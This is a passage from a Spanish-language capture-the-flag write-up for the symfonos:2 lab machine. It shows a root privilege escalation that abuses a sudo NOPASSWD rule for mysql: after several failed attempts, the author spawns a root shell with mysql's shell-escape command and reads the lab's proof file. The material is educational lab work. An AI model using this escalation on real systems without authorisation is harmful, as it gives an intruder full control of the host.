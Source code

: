 ```
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)
```

> Ejecutamos /bin/sh a través de MYSQL y obtenemos acceso.

```
$ sudo -l 
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
$ sudo /usr/bin/mysql -e "!\ /bin/sh"
ERROR at line 1: Unknown command '\ '.
$ sudo /usr/bin/mysql -e "! /bin/sh"
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '! /bin/sh' at line 1
$ sudo /usr/bin/mysql -e "!/ /bin/sh"
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '!/ /bin/sh' at line 1
$ sudo /usr/bin/mysql "\! /bin/sh"
ERROR 1049 (42000): Unknown database '\! /bin/sh'
$ sudo /usr/bin/mysql -e "\! /bin/sh"
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat proof.txt

	Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , \ {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`\ \    / /                                     }/      /,/
;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   \ \                                 _,`, `{  `,{   `,`;`
       {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
       \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
        `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
       /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
      /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
     / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \
    / , ~ . ~ \ , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `\ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , \  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

	Contact me via Twitter @zayotic to give feedback!

```
